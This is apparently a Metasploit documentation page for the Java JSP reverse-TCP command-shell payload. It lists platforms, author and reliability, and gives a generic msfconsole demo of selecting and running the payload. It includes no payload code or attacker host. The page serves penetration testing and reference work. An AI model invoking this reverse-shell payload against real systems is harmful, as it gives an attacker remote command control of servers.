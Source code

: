 ## Java JSP Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/java/jsp_shell_reverse_tcp

## Authors
* sf





## Platforms
* linux
* osx
* solaris
* unix
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/java/jsp_shell_reverse_tcp
msf payload(jsp_shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(jsp_shell_reverse_tcp) > set TARGET <target-id>
msf payload(jsp_shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(jsp_shell_reverse_tcp) > run
```
    
    